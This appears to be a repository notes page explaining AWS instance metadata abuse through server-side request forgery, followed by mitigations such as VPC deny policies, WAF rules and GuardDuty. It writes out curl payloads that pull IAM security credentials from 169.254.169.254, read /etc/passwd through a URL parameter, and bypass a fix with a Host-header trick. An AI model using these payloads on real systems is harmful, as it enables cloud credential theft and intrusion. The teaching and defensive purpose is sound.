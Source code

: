 # AWS metadata

AWS EC2 has a feature called the Instance Metadata Service ([official documentation](
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)). 
This enables any EC2 instance to access a REST API running on 169.254.169.254, which returns data about the
instance itself. Some examples include the instance name, the instance image (AMI) ID, and a bunch of other
interesting things.

Ref
- https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/
- https://www.youtube.com/channel/UCc5ZvM72SAxmjyQypnJVBpQ/live

## AWS metadata

You can access aws metadata inside your ec2 (hypervisor)

```
ec2-user> curl -s http://169.254.169.254/latest/meta-data

# E.g.
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/SSRFDEMO-ISRM-WAF-Role
```

## Server Side Request Forgery (SSRF)

SSRF is a vulnerability which allows an attacker to make web requests from the context of the server
 host machine to arbitrary URL's.

This vulnerability can allow the attacker to access resources internal to the network, which would otherwise
be inaccessible.

E.g. Run a curl command from a server.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"

curl -vv "https://example.com/viewimage/?url=file:///etc/passwd"

PHP:
curl_exec($ch);

Proxy:
curl "https://proxy.duckduckgo.com/iur/?f=1&image_host=http://169.254.169.254/latest/meta-data"

Proxy Config (nginx):
# Don't ever use setup a proxy like this!
server {
  listen 80 default_server;
  location / {
    proxy_pass http://$host;
  }
}
```

Example: see [test_ssrf.sh](test_ssrf.sh)


## Fix

```
1. Add a policy to the role to ensure all action must be from the vpc.

---
"Statement": [
  {
    "Action": "*",
    "Resource": "*",
    "Effect": "Deny",
    "Condition": {
      "StringNotEquals": {
        "aws:SourceVpc": [ "vpc-xxx-this-vpc" ]
      }
    }
  }
]
---
Cannot access s3 anymore.
But still can do - 
`curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254';echo`

2. Set up WAF
a) go to WAF > Web ACLs
b) create/edit Web ACL (e.g. SSRF_Protection)
   - Rules > Edit web ACL
     - Rule: SSRFProtectionRule
     - Action: Block
c) Details
Now curl won't work anymore.

3. GuardDuty
Reported "UnauthorizedAccess:IAMUser ... has been used from external IP address..."

4. Cloudtrail filter
($.errorCode="Client.UnauthorizedOperation")

5. Patch your applications and OS
6. Never trust user inputL use input validation checks
7. Blacklist the AWS metadata url
8. Create different AWS accounts to limit the blast radius
9. Use IP reputation blacklisting and other WAF rules
```
